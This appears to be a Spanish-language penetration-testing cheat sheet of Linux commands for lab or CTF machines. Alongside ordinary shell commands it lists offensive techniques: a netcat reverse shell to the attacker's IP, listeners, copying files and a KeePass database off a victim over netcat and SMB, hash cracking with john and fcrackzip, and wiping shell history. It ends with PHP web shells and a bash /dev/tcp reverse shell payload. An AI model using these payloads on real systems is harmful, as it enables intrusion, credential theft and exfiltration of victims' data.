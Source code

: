 # Comandos Linux


- **sudo** -> Te permite ejecutar un comando o funcion en la consola.
- **su (switch user)** -> Cambiar de usuario

Modo Vi en la consola 
**Esc** - Entras al modo Vi y puedes tener una mayor agilidad al momento de borrar comandos o moverte

- **/etc/hosts** Ruta para colocar dominios e IP's
- **/etc/passwd** Ruta de las cuentas de usuario
- **/etc/shadow** Ruta de hashes de passwrod de usuario estan almacenadas ahi
- **/etc/group** Ruta de configuracion del archivo de grupos
- **/etc/shells** Podemos ver las diferentes shells que hay 
- **/etc/ssh/sshd_config** Podemos ver las configuraciones de ssh y ver si el usuario root se puede conectar 

- **/tmp** Directorio con capacidad de escritura
- **/var/tmp** Directorio con capacidad de escritura
- **/dev/shm** Directorio con capacidad de escritura

- /usr/share/Seclists/Web-Shells/FuzzDB/**nc.exe**    Netcat nos ayuda a conseguir una ReverShell

- Comando -> **watch -n 1 ls -l /bin/bash** Monitoreamos el comando /bin/bash y miramos con ls -l (l=ele)
- Comando -> **!$** Referencias el ultimo argumento que hayamos puesto en la consola 
- Comando -> **echo ‘’ > ~/.zsh_history** Para borrar el historial en la zshrc
- Comando -> **echo $PATH** Miramos el path de la consola Linux

- Comando -> **sudo openvpn < FILENAME.ovpn>** – Te conectas a una vpn especifica
- Comando -> **extractPorts < FILENAME>** (Sirve para mostrarte los puertos mas relevantes y copiarlos en el cli para uso instantaneo )
- Comando -> **Settarget < IP - NAME>** -Agregamos en la esquina derecha la IP y el nombre de la maquina (Es una funcion antes configurada en la zsh)
- Comando -> **mkt** – Crea 3 directorios ya establecidos (content, exploit, namp) propios de la configuracion de parroy antes hecha
- Comando -> **mkdir -p /PATH/** Creamos una ruta con muchos directorios 

- Comando -> **arp-scan -I ens33 --localnet** Escaneamos toda la red (l=i mayuscula)
- Comando -> **macchanger -l | grep -i < NAME_VENDOR>** Podemos ver los vendors y asi determinar que es (l=ele)
- Comando -> **id** Identificador de los usuarios (UID), root=UID=0
- Comando -> **lsb_release -a** Nos proporciona informacion de que Linux es 
- Comando -> **whoami** Nos muestra el usuario que somos
- Comando -> **hostname -I** Miramos nuestra interface (I=i mayuscula)
- Comando -> **uname -a** Enumeras la version del Kernel
- Comando -> **ps -faux** Listas los procesos que corren en la maquina Linux

- Comando -> **7z l file.zip** (l=ele) Podemos ver el contenido interno del archivo zip, gz, bzip2, etc...
- Comando -> **7z x file.gz** (l=ele) Podemos extraer el contenido interno del archivo zip, gz, bzip2, etc...

- Comando -> **cat < FileName> | wc -l** Te muestra el numero de palabras en fila que existen en ese archivo (l=ele)
- Comando -> **exiftool <Image.jpg>** Con esa herramienta podemos ver los metadatos de una imagen 
- Comando -> **steghide info <Image.jpg>** Para ver si la imagen tiene contenido oculto
-  Comando -> **steghide extract -sf <Image.jpg>** Para ver si la imagen tiene contenido oculto (sf=sourcefile)

- Comando -> **find / -name < WORD> 2>/dev/null** Para encontrar el directorio y los permisos denegados no nos los muestre
- Comando -> **file < FILE>** Nos muestra que tipo de archivo es por los magic numbers

- Comando -> **ifconfig** o **ip a** – Miras la tarjeta de red (ens33 ‘IP Local’ , Tun0 ‘IP VPN’)

- Comando -> **ls bin/** Para ver que comandos podemos ejecutar 

- Comando -> **ping -c 1 < TARGET IP>** Mandamos un numero de ping especifico
- Comando -> **ping -c 1 < TARGET IP> -R** Verificar si tenemos conexion a una IP mandando numeros de ping especificos (R=traceroute, solo aplica en maquinas Linux, c=numero de ping) (ttl=64 Linux, ttl=128 Windows )

- Comando -> **tcpdump -i < INTERFACE> icmp -n** (n=no resolucion DNS) Nos ponemos en escucha para trazas icmp y recibir los pings

- Server Comando -> **nc.exe -e cmd < NUESTRA IP> < PUERTO>** Para ejecutar el netcat y nos haga una ReverShell a nuestra IP y puerto especifico
- Comando -> **rlwrap nc -nlvp 443** Nos ponemos en escucha por el puerto 443 (Podemos hacer **Ctrl + l**, sin poder hacer **Ctrl + c**) maquinas Windows
- Comando -> **nc -nlvp 443** Nos ponemos en escucha por el puerto 443, maquinas Linux

- Comando -> **nc < Nuestra IP> 443 < secret.zip** Nos ponemos en escucha por el puerto 443, maquinas Linux, para mandar un archivo por netcat a nuestra direccion IP, esto desde la maquina victima
- Comando -> **nc -nlvp 443 > secret.zip** Nos ponemos en escucha por el puerto 443, maquinas Linux esto en la maquina de atacante para recibir el archivo y colocarlo con la misma extencion y el mismo nombre.

- Comando -> **smbserver.py < FOLDERNAME> $(pwd)** Nos creamos un recurso de red compartido, sincronizado con la ruta actual en donde se encuentra el archivo a compartir
- Comando -> **impacket-server < FOLDERNAME> $(pwd) -smb2support** Nos creamos un recurso de red compartido, sincronizado con la ruta actual en donde se encuentra el archivo a compartir
	- **\\\\10.10.14.17\\smbFolder\\nc.exe -e cmd 10.10.14.17 443** Vamos a crear un recurso compartido smb con nuestra maquina para compartir el nc.exe y despues hacer que cuando lo ejecute nos regrese una consola interactiva por el puerto 443 (Se coloca en la maquina victima)
	- **copy CEH.kdbx \\\\10.10.14.17\\smbFolder\\CEH.kdbx** Copiamos un archivo de la maquina victima a nuestra maquina de atacante
		- CEH.kdbx -> Nombre dek archivo que nos queremos copiar de la maquina victima
		- 10.10.14.17 -> Nuestra direccion IP
		- smbFolder -> Nombre de la carpeta del recurso compartido 


- Comando -> **chown <USER:USER> -R < DIR PATH>** Le cambiamos el propietario a un directorio (R=Forma recursiva)
- Comando -> **chmod u+x < FILE>** Le cambiamos los permisos a un archivo (r=read, w=write, x=execution, u=user, g=grupo, o=other)

- Encontrar un archivo con extencion **.kdbx** 
	Son archivos de datos creados por KeePass 'Password Safe', se refieren a la passwd de base de datos KeePass
	- **keepassxc FILE.kdbx** Nos permite abrir un archivo keepass con passwd, de lo contrario hacemos lo siguiente
	- **keepass2john FILE.kdbx > hash** Si no sabemos la passwd, esto no sayuda a extraer un hash para poder hacer fuerza bruta, guardandolo en un archivo llamado hash 

- Comando -> **cewl -w < FileName.txt> <http://URL/>** Creas un diccionario mas 'personalizado' con las palabras de una webpage y te regresa un archivo de texto

- Comando -> **upx < FILE>** Podemos bajarle el peso al archivo 

- Comando -> **find / -name < NAME> 2>/dev/null** Para encontrar el directorio y los permiso denegados no nos los muestre

- Comando -> **zip2john secret.zip > hash** Para que nos devielva el Hash y asi despues poderlo crackear y el resultado del hash lo metemos a un archivo llamado 'hash'.
- Comando -> **john -w:/usr/share/wordlists/rockyou.txt hash** Aplicamos un ataque de fuerza bruta a un archivo hash

- Comando -> **john --wordlist=</usr/share/wordlists/rockyou.txt> < HASHFILE> --format=< HASHTYPE>** Aplicamos un ataque de fuerza bruta a un archivo hash (raw-md5, sha256)
- Comando -> **fcrackzip -p /usr/share/wordlists/rockyou.txt -b -u FILE.zip -D** Nos crackea el hash y nos proporciona la passwd (p=init-passwd-string, b=bruteforce, D=dicctionary, u=use-unzip) 

-----
ID	Cryptographic Hash Algorithm
\$1$	MD5
\$2a$	Blowfish
\$5$	SHA-256
\$6$	SHA-512
\$sha1$	SHA1crypt
\$y$	Yescrypt
\$gy$	Gost-yescrypt
\$7$	Scrypt

----
Codigo PHP para que en la url nosotros podamos ejecutar diferentes comandos **/image.php?cmd=whoami**
Despues del primer ? va php esto en los tres de abajo
<?
	system($_REQUEST['cmd']);
?>

Comando de ReverShell en PHP
<?
   system("bash -c 'bash -i >& /dev/tcp/10.10.14.13/443 0>&1'")
?>

De esta manera tambien podemos hacer una revershell mas bonita, la peticion se emite por POST (REQUEST)
<?
		echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?> 